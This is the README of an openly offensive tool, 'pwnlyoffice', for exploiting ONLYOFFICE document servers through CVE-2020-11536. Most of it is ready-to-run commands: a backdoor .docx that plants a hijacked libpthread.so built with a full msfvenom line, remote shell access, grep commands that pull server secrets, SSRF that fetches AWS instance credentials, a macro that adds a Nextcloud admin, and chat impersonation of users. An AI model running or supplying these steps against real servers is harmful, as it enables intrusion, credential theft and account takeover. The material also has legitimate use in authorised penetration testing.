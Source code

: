 # pwnlyoffice

Exploit ONLYOFFICE Implementations

## Sub-commands

`pwnlyoffice` has a number of sub-commands to carry out actions against vulnerable instances of OnlyOffice. The main ones are:

 - **dl**: Connect to the ONLYOFFICE document server and request that it downloads a provided URL. This can be used to test an instances to see if it has an unauthenticated / weak websocket. A random document id is created and this sub-command can be used to inject a malicious document into the document server (CVE-2020-11536)
 - **macro**: If a pre-existing document id is known, this will inject the given JavaScript file into it as a macro. Two example exploits for NextCloud are included in `/macros`, plus a basic PoC alert box.
 - **chat**: If a pre-existing document id is known, this allows you to connect to the in-editor chat function and pretend to be any user id of your choice.
 - **backdoor**: Generate a malicious document which exploits CVE-2020-11536 to write a backdoor on the server.
 - **shell**: Run commands against a server which has been compromised with the backdoor.
 - **enum**: Attempt to guess valid document ids by providing a file containing a list of potential ids. The script will try each one to find a valid pre-existing document.

## Examples

### Test if a server is vulnerable

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl -D https://yoursite/uniquepath dl
```

Any hits to `/uniquepath` means that the server meets the conditions for being able to have a malicious document injected into it:

1. The authentication is either absent or uses the default JWT signing key
2. The server is able to reach out to the Internet

### Generate a malicious document

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl backdoor
```

This generates `backdoor.docx`. Host this on a web server which is visible to the document server.

When loaded in ONLYOFFICE, this will write a number of files into `/var/www/onlyoffice/documentserver/server/FileConverter/bin` using CVE-2020-11536.

 - `proxy.sh` - written to `x2t.sh` and will proxy through any commands for x2t in order to provide arbitrary RCE
 - `hijack.so` - generated using `msfvenom -a x64 -p linux/x64/exec CMD="cp bin/x2t bin/x2t.new; mv bin/x2t.sh bin/x2t; chmod u+x bin/x2t" -f elf-so -o hijack.so`. This is written to the server as `libpthread.so` in order to be loaded higher up the `ld` search and execute a command which switches out the legit `x2t` binary for a script which proxies it.
 - `x2t` - this is the legit `x2t`, written to `x2t.old` because in case anything goes wrong, that file will be there to restore `x2t`

To restore a borked server back to pre-pwned state in case anything went wrong with this, `libpthread.so` should not be in `FileConverter/bin` - delete that. `x2t` should be the legit `x2t` iELF binary and not a bash script. There shouldn't be any `.sh` files in that folder.

### Prompt Document Server to Download Malicious document

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl -D https://yoursite/backdoor.docx dl
```


### Run Shell Commands on Server


```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl shell
```

#### Useful commands

Get the document cache folder location:

```bash
grep -A 2 storage /etc/onlyoffice/documentserver/*linux.json | grep folderPath
```

Get server secret strings (do we need them at this point?)

```bash
grep -i secret /etc/onlyoffice/documentserver/*
```

### Query the document server DB

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl sql
```

Get a list of valid document ids with `SELECT DISTINCT id FROM task_result`

### Get AWS Temporary Credentials

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl -D http://169.254.169.254/latest/meta-data/iam/security-credentials dl
```

### Inject a Macro Into a Known Doc id 

This macro adds an admin user into Nextcloud. The document id is `1234` and has to be known by the attacker. These vary depending on what the underlying document management system is.

``bash
./pwnlyoffice.py -d 1234 -u https://theonlyofficesiteurl macro macros/nextcloud_addadmin.js
```

### Chat with legitimate users

Masquerading as a user called "Bob", connected to document id "1234"

``bash
./pwnlyoffice.py -d 1234 -u https://theonlyofficesiteurl -U Bob chat
```
